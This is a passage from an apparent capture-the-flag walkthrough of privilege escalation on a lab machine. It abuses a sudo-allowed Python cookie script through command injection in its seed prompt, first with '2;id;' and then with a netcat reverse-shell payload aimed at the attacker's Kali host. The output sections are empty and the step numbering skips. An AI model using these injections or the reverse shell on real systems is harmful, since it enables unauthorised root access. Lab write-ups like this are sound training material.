

5. Privilege Escalation
Getting root shell
1. Look at the “
athena” user permissions.athena@momentum2:~$sudo -l
Output:

So, you ocan run the “/usr/bin/python3” and “
/home/team-tasks/cookie-gen.py” files.2. Let's see what this file is.
athena@momentum2:~$cat /home/team-tasks/cookie-gen.py
Output:
This program generate a cookie,
4. Thinkings as OS command injection is the the right way to exploit this vulnerability. Run the following code and enter “2;id;” as seed.
athena@momentum2:~$sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
Output:
5. On your Kali Machine, open a connection with “netcat”.
$nc -lvnp 5555
Output:
6. Run the code from point 4 but this time introduce the following seed: “2;nc -e /bin/bash 192.168.12.10 5555;”
athena@momentum2:~$sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
Output:
On your Kali Machine.
Output: